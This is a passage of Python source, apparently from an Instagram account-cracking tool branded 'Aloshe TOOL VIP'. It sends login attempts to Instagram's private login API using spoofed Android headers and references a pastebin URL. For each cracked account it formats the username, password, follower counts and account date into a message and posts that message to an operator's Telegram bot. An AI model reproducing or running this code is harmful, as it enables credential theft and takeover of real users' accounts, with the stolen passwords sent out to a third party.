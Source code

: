 	idd    = str(req_id['graphql']['user']['id'])

	bio    = str(req_id['graphql']['user']['biography'])

	re = requests.get(f"https://o7aa.pythonanywhere.com/?id={id}")   

	ree = re.json()

	dat = ree['data']

	shug = (f"""

 ⭕𝖭𝖤𝖶\n⭕Aloshe 𝖳𝖮𝖮𝖫 𝖵𝖨𝖯

• ────── ✾ ────── •

⭕𝖭𝖠𝖬𝖤 : {name}

⭕𝖴𝖲𝖤𝖱 : {userQ}

⭕𝖯𝖠𝖲𝖲 : {password} 

⭕𝖥𝖮𝖫𝖫𝖮𝖶𝖤𝖱𝖲 : {followers}

⭕𝖥𝖮𝖫𝖫𝖮𝖶𝖨𝖭𝖦 : {following}

⭕𝖣𝖠𝖳𝖤 : {dat}

⭕𝖯𝖵𝖳 : {isp} 

• ────── ✾ ────── •

⭕𝖡𝖸:@gftali

 """)

	tlg =(f'''https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text={shug}''')

	i = requests.post(tlg)

	print(G+shug)

 

url='https://i.instagram.com/api/v1/accounts/login/'

headers = {'User-Agent':'User-Agent: Instagram 6.12.1 Android (22/5.1.1; 240dpi; 540x960; samsung; SM-G531H; grandprimeve3g; sc8830; fr_FR)',  'Accept':'*/*', 

             'Accept':'*/*', 

             'Cookie':'missing', 

             'Accept-Encoding':'gzip, deflate', 

             'Accept-Language':'en-US', 

             'X-IG-Capabilities':'3brTvw==', 

             'X-IG-Connection-Type':'WIFI', 

             'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 

             'Host':'i.instagram.com'}

w = 'https://pastebin.com/raw/mpWBGQKF'
